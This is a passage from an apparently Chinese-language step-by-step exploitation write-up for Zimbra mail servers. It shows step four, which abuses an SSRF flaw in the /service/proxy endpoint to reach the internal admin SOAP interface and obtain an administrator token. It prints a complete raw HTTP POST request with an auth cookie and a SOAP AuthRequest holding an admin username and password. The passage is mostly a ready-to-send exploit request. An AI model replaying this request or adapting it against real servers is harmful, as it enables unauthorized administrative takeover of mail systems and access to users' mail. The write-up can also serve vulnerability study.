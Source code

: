 ```

</soap:Envelope>` 
```

![image](img/3048ef2bbbba3f214dfbde47fc6aacc3.png)

从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

```
POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
Host: www.0-sec.org:7071  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/
Content-Type: application/soap+xml  
Content-Length: 465  
Connection: close  
Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
Upgrade-Insecure-Requests: 1 `<soap:Envelope xmlns:soap=“[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)”>

<soap:Header>

<context xmlns=“urn:zimbra”>

<userAgent name=“ZimbraWebClient - SAF3 (Win)” version=“5.0.15_GA_2851”/>

</context>

</soap:Header>

<soap:Body>

<AuthRequest xmlns=“urn:zimbraAdmin”>

<account by=“adminName”>zimbra</account>

<password>GzXaU76_s5</password>

</AuthRequest>

```